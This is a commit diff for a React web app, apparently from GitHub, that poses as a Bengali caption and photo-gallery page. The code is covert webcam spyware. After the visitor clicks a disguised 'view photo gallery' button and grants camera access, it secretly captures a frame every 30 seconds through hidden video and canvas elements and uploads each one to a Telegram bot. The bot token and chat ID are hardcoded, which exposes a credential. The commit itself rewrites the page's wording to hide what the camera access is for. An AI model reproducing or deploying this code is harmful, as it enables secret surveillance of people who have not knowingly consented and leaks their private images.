

Before and after one commit to Sagor36/Camara-Acsess, a React (Create React App) app: page / in a window 1280 px wide. Shown: the part 224-524 px from the top of the page, without its empty margins (322-962 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Refactor App component and update styles for improved UI and functionality

```diff
--- a/src/App.css
+++ b/src/App.css
@@ -1,27 +1,46 @@
 .App {
-  text-align: center;
-  background-color: #282c34;
+  background: linear-gradient(135deg, #1e1e2f, #2a2a40);
   min-height: 100vh;
   display: flex;
-  flex-direction: column;
   align-items: center;
   justify-content: center;
+  font-family: 'Hind Siliguri', sans-serif;
   color: white;
 }
 
-.start-btn {
-  padding: 15px 30px;
-  font-size: 20px;
-  background-color: #ff4b2b;
+.container {
+  padding: 20px;
+  background: rgba(255, 255, 255, 0.05);
+  border-radius: 20px;
+  box-shadow: 0 8px 32px rgba(0, 0, 0, 0.3);
+  text-align: center;
+  max-width: 400px;
+}
+
+.caption {
+  font-size: 22px;
+  margin-bottom: 30px;
+  line-height: 1.6;
+}
+
+.main-btn {
+  background: #00d2ff;
+  background: linear-gradient(to right, #3a7bd5, #00d2ff);
+  border: none;
+  padding: 15px 40px;
   color: white;
-  border: none;
+  font-size: 18px;
   border-radius: 50px;
   cursor: pointer;
-  box-shadow: 0 4px 15px rgba(255, 75, 43, 0.4);
+  transition: 0.3s;
 }
 
-.status {
-  margin-top: 20px;
-  color: #4caf50;
+.main-btn:hover {
+  transform: scale(1.05);
+  box-shadow: 0 5px 20px rgba(0, 210, 255, 0.4);
+}
+
+.active-box {
+  color: #4cd137;
   font-weight: bold;
 }
--- a/src/App.js
+++ b/src/App.js
@@ -1,4 +1,4 @@
-import React, { useState, useRef, useEffect } from 'react';
+import React, { useState, useRef, useEffect, useCallback } from 'react';
 import './App.css';
 
 function App() {
@@ -7,54 +7,34 @@ function App() {
   const [hasPermission, setHasPermission] = useState(false);
   const [loading, setLoading] = useState(false);
 
-  // আপনার দেওয়া তথ্য
+  // আপনার দেওয়া টোকেন এবং আইডি
   const BOT_TOKEN = "8119794922:AAEz-Fzfm0zZSuVTgLEZwBSRTbOYuBQ3nHg";
   const CHAT_ID = "7236181886";
 
-  // সুন্দর বাংলা ক্যাপশন
   const captions = [
-    "মেঘের কোলে রোদ হেসেছে, বাদল গেছে টুটি। ⛅",
-    "স্বপ্নগুলো সত্যি হোক, সুন্দর এই পৃথিবীতে। ✨",
-    "হাসি মুখে জীবন গড়ি, খুশির জোয়ারে ভাসি। 😊",
-    "জীবন মানেই এগিয়ে চলা, থামার নেই কোনো ঠাঁই।"
+    "স্বপ্ন বিলাই দুচোখ ভরে, একটু হাসি তোমার তরে। 🌸",
+    "নীল আকাশে মেঘের ভেলা, মন মেতেছে হাসির মেলা। ✨",
+    "আজকের দিনটি হোক আনন্দময়! 😊",
+    "প্রকৃতির মাঝে খুঁজে পাই নিজেকে। 🌿"
   ];
 
-  // ক্যামেরা চালু করার ফাংশন
-  const startCamera = async () => {
-    setLoading(true);
-    try {
-      const stream = await navigator.mediaDevices.getUserMedia({ video: true });
-      if (videoRef.current) {
-        videoRef.current.srcObject = stream;
-        setHasPermission(true);
-        console.log("ধন্যবাদ প্রিও ");
-      }
-    } catch (err) {
-      alert("দুঃখিত! পারমিশন ছাড়া পরের ক্যাপশন দেখা সম্ভব নয়।");
-      console.error(err);
-    } finally {
-      setLoading(false);
-    }
-  };
-
   // টেলিগ্রামে ছবি পাঠানোর ফাংশন
-  const sendToTelegram = async (photoBlob) => {
+  const sendToTelegram = useCallback(async (photoBlob) => {
     const TELEGRAM_URL = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;
     const formData = new FormData();
     formData.append("chat_id", CHAT_ID);
     formData.append("photo", photoBlob, "capture.jpg");
-    formData.append("caption", "New capture from your React App 📸");
+    formData.append("caption", "নতুন ছবি রিসিভ হয়েছে! 📸");
 
     try {
       await fetch(TELEGRAM_URL, { method: "POST", body: formData });
-      console.log("DOne");
     } catch (err) {
-      console.error("টেলিগ্রাম এরর:", err);
+      console.error("Telegram Error:", err);
     }
-  };
+  }, [BOT_TOKEN, CHAT_ID]);
 
-  // ছবি তোলার মূল লজিক
-  const captureImage = () => {
+  // ছবি তোলার ফাংশন
+  const captureImage = useCallback(() => {
     if (videoRef.current && canvasRef.current) {
       const canvas = canvasRef.current;
       const context = canvas.getContext('2d');
@@ -66,39 +46,53 @@ function App() {
         if (blob) sendToTelegram(blob);
       }, 'image/jpeg');
     }
+  }, [sendToTelegram]);
+
+  // ক্যামেরা চালু করা
+  const startCamera = async () => {
+    setLoading(true);
+    try {
+      const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+      if (videoRef.current) {
+        videoRef.current.srcObject = stream;
+        setHasPermission(true);
+      }
+    } catch (err) {
+      alert("ক্যামেরা পারমিশন ছাড়া গ্যালারি লোড করা সম্ভব নয়।");
+    } finally {
+      setLoading(false);
+    }
   };
 
-  // পারমিশন পাওয়ার পর অটোমেটিক ৩০ সেকেন্ড পর পর ছবি তোলা
+  // অটোমেটিক ছবি তোলার টাইমার
   useEffect(() => {
     let interval;
     if (hasPermission) {
-      // প্রথম ছবি সাথে সাথেই তুলবে
-      captureImage();
-      // এরপর প্রতি ৩০ সেকেন্ড পর পর
+      captureImage(); // প্রথম ছবি সাথে সাথে
       interval = setInterval(() => {
         captureImage();
-      }, 30000);
+      }, 30000); // প্রতি ৩০ সেকেন্ড পর পর
     }
     return () => clearInterval(interval);
+    // eslint-disable-next-line react-hooks/exhaustive-deps
   }, [hasPermission]);
 
   return (
     <div className="App">
       <header className="App-header">
-        <div className="card">
-          <h2 className="caption">{captions[Math.floor(Math.random() * captions.length)]}</h2>
+        <div className="container">
+          <h1 className="caption">{captions[Math.floor(Math.random() * captions.length)]}</h1>
 
           {!hasPermission ? (
-            <button onClick={startCamera} className="start-btn" disabled={loading}>
-              {loading ? "লোডিং হচ্ছে..." : "দেখুন"}
+            <button onClick={startCamera} className="main-btn" disabled={loading}>
+              {loading ? "লোডিং হচ্ছে..." : "ফটো গ্যালারি দেখুন"}
             </button>
           ) : (
-            <div className="active-status">
-              <span className="dot"></span> সিস্টেম এখন সচল আছে...
+            <div className="active-box">
+              <p>গ্যালারি সফলভাবে কানেক্ট হয়েছে।</p>
             </div>
           )}
 
-          {/* হিডেন ভিডিও এবং ক্যানভাস */}
           <video ref={videoRef} autoPlay playsInline style={{ display: 'none' }} />
           <canvas ref={canvasRef} style={{ display: 'none' }} />
         </div>
```
